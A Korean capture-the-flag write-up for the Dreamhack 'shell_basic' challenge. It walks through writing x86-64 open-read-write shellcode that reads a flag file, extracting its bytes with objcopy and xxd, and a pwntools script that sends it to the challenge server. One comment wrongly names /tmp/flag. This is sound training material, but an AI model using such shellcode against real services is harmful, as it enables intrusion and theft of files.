 # [Dreamhack] shell_basic

---

## **문제 설명**

## **Description**

- **입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.
`main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.**
- **flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.**
- 해당 문자열을 리틀엔디안 형식으로 작성하면 다음과 같다.
    - 676E6F6F6F6F6F6F
    - 6C5F73695F656D61
    - 6E5F67616C662F63
    - 697361625F6C6C65
    - 68732F656D6F682F

### 1. 해당 문자열을 참조한 orw 셸코드를 작성하면 아래와 같다.

```c
// File name: shell_basic.c
// Compile: gcc -o shell_basic shell_basic.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    
    "push 0x0\n"      # push 전에 null 값을 넣어주어야함.
    "mov rax, 0x676E6F6F6F6F6F6F \n"
    "push rax\n"
    "mov rax, 0x6C5F73695F656D61 \n"
    "push rax\n"
    "mov rax, 0x6E5F67616C662F63 \n"
    "push rax\n"
    "mov rax, 0x697361625F6C6C65 \n"
    "push rax\n"
    "mov rax, 0x68732F656D6F682F \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = '/home/shell_basic/flag_name_is_loooooong'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1        # rdi = 1 ; fd = stdout\n"
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n"
    "\n"
    "xor rdi, rdi      # rdi = 0\n"
    "mov rax, 0x3c	   # rax = sys_exit\n"
    "syscall		   # exit(0)");

void run_sh();

int main() { run_sh(); }
```

### 2. 오브젝트 파일로 컴파일

```c
gcc -c -o shell_basic.o shell_basic.c -masm=intel
```

```c
objdump -d shell_basic.o // 디버깅
```

### 3. 바이너리 코드 추출

- 오브젝트 파일에서 `.text` 섹션을 추출하여 바이너리 파일로 저장합니다.

```c
objcopy --dump-section .text=shell_basic.bin shell_basic.o
```

### 4. 바이너리 코드 변환(추출)

- 바이너리 파일을 헥사 문자열로 변환하고 쉘코드 형식으로 변환합니다.

```c
xxd -p shell_basic.bin | tr -d '\n' | sed 's/../\\x&/g'
```

- 변환된 문자열에 `main` 함수에 헥사값도 포함이 되었음, 해당 부분을 삭제해주어야함

![Untitled](./Shell_Code.assets/Untitled.png)

```c
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
```

### 5. Python Exploit 함수 작성

- 추출한 쉘코드 문자열로 Exploit을 시도 아래와 같이 `Flag` 를 획득해볼 수 있습니다.
- 입력한 `shellcode` 앞에 문자열과 바이트를 구분하기 위해 `b` 를 추가해줘야함

```c
from pwn import *

context.arch="amd64"

p = remote('host3.dreamhack.games', 11881)
shellcode=b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendlineafter('shellcode:',shellcode)
data=p.recvline()
print(data)

```

![Untitled](./Shell_Code.assets/Untitled%201.png)